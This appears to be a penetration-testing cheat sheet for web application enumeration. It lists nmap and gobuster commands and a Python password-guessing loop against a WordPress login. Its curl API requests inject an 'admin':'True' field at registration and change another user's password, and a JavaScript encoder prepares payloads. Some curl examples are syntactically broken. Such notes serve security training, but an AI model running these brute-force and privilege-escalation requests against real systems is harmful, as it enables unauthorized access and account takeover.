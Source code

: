 # WebApps enum

OWASP top ten: https://owasp.org/www-project-top-ten/

## Nmap

```
sudo nmap -p80 -sV $IP
sudo nmap -p80 --script=http-enum $IP
```

## Wappalyzer

Technology stack: https://www.wappalyzer.com/

## Sitemaps

```
http://ip/robots.txt
http://ip/sitemap.xml
```

## Gobuster 

### Directory brute force

Documentation on Kali: https://www.kali.org/tools/gobuster/
```
gobuster dir -u $IP -w /path/to/wordlist.txt
```
Kali wordlists: `/usr/share/wordlists/dirb/*.txt`

### Enumerating APIs

```
gobuster dir -u http://ip:port -w /usr/share/wordlists/dirb/big.txt -p pattern
curl -i ip:port/gobuster_dir/gobuster_version # with Headers
gobuster dir -u http://ip:port/gdir/gver/guser/ -w /usr/share/wordlists/dirb/small.txt
curl -i http://ip:port/gdir/gver/guser/gword
curl -i http://ip:port/gdir/gver/guser/gword2
curl -d '{"password":"somepass","username":"someuser"}' -H 'Content-Type: application/json' http://ip:port/gdir/gver/login
curl -d '{"password":"somepass","username":"someuser"}' -H 'Content-Type: application/json' http://ip:port/gdir/gver/register
curl -d '{"password":"somepass","username":"someuser","email":"some@email.com","admin":"True"}' -H 'Content-Type: application/json' http://ip:port/gdir/gver/guser/register
curl -d '{"password":"somepass","username":"someuser"}' -H 'Content-Type: application/json' http://ip:port/gdir/gver/login # get auth_token
curl  \ # default is POST
  'http://ip:port/gdir/gver/guser/gword2' \
  -H 'Content-Type: application/json' 
  -H 'Authorization: OAuth my_auth_token' \
  -d '{"password": "new_pass"}'
curl -X 'PUT' \ # or PATCH
  'http://ip:port/gdir/gver/guser/gword2' \
  -H 'Content-Type: application/json' 
  -H 'Authorization: OAuth my_auth_token' \
  -d '{"password": "new_pass"}'
curl -d '{"password":"new_pass","username":"guser"}' -H 'Content-Type: application/json' http://ip:port/gdir/gver/login 

```

## Burp Suite

Proxy > Proxy Settings > Proxy Listeners
Firefox > Connection Settings > Configure Proxy > Manual > 127.0.0.1
Proxy > HTTP history > right-click "Send to repeater"
Repeater > Send
`cat /etc/hosts # add the website`
Proxy > HTTP history > right-click "Send to intruder"
Intruder > Clear/Add > Payload > Paste > paste a wordlist > check the return code

## Python manual password attack

Using the `requests` module: https://requests.readthedocs.io/en/latest/api
```
import requests
for i in ['test', 'pass', 'password']:
    r = requests.post('http://offsecwp/wp-login.php', data={'login_field': 'user_to_hack', 'password_field': i})
    print(r.status_code, len(r.content))
```

## Javascript (console: `^C+^S+k`)

```
function myFunc(a,b){
  return a+b
  }
let c = myFunc(n1,n2)

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```


